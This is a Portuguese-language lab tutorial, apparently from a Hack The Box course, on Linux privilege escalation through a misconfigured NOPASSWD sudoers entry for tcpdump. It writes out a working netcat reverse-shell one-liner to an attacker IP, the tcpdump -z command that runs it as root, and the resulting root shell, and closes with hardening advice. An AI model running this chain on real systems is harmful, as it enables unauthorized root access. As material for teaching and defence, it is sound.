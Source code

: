 Privilégios sudo podem ser concedidos a uma conta, permitindo que a conta execute certos comandos no contexto do root (ou outra conta) sem ter que alterar usuários ou conceder privilégios excessivos.

Quando o comando `sudo` é emitido, o sistema verificará se o usuário que emitiu o comando tem os direitos apropriados, conforme configurado em `/etc/sudoers`.

Ao acessar um sistema, devemos sempre verificar se o usuário atual tem privilégios sudo digitando `sudo -l`. Às vezes, precisaremos saber a senha do usuário para listar seus direitos `sudo`, mas quaisquer entradas de direitos com a `NOPASSWD`opção podem ser vistas sem inserir uma senha.

```sh
sudo -l
```

É fácil configurar isso incorretamente. Por exemplo, um usuário pode receber permissões de nível root sem exigir uma senha. Ou a linha de comando permitida pode ser especificada de forma muito frouxa, permitindo que executemos um programa de forma não intencional, resultando em escalonamento de privilégios.

Por exemplo, se o arquivo sudoers for editado para conceder a um usuário o direito de executar um comando, como `tcpdump`na seguinte entrada no arquivo sudoers: `(ALL) NOPASSWD: /usr/sbin/tcpdump`um invasor pode aproveitar isso para tirar vantagem da opção **postrotate-command** .

```sh
man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

Ao especificar o sinalizador `-z`, um invasor pode usar o `tcpdump` para executar um script de shell, obter um shell reverso como usuário root ou executar outros comandos privilegiados. Por exemplo, um invasor pode criar o script de shell `.test` contendo um shell reverso e executá-lo da seguinte forma:

```shell-session
htb_student@NIX02:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

Vamos tentar isso. Primeiro, faça um arquivo para executar com o `postrotate-command`, adicionando um shell reverso simples de uma linha.

```shell-session
htb_student@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

Em seguida, inicie um `netcat`listener em nossa caixa de ataque e execute `tcpdump`como root com o `postrotate-command`. Se tudo correr conforme o planejado, receberemos uma conexão shell reversa root.

```shell-session
htb_student@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

Recebemos um shell de root quase instantaneamente.

```shell-session
NycolasES6@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[O AppArmor](https://wiki.ubuntu.com/AppArmor) em distribuições mais recentes predefiniu os comandos usados ​​com o `postrotate-command`, efetivamente impedindo a execução do comando. Duas práticas recomendadas que devem sempre ser consideradas ao provisionar direitos `sudo`:

|   |   |
|---|---|
|1.|Sempre especifique o caminho absoluto para quaisquer binários listados na `sudoers`entrada do arquivo. Caso contrário, um invasor pode ser capaz de alavancar o abuso de PATH (que veremos na próxima seção) para criar um binário malicioso que será executado quando o comando for executado (ou seja, se a `sudoers`entrada especificar `cat`em vez `/bin/cat`disso, provavelmente poderá ser abusado).|
|2.|Conceda `sudo`direitos com moderação e com base no princípio do menor privilégio. O usuário precisa `sudo`de direitos totais? Ele ainda pode executar seu trabalho com uma ou duas entradas no `sudoers`arquivo? Limitar o comando privilegiado que um usuário pode executar reduzirá muito a probabilidade de escalonamento de privilégios bem-sucedido.|
















































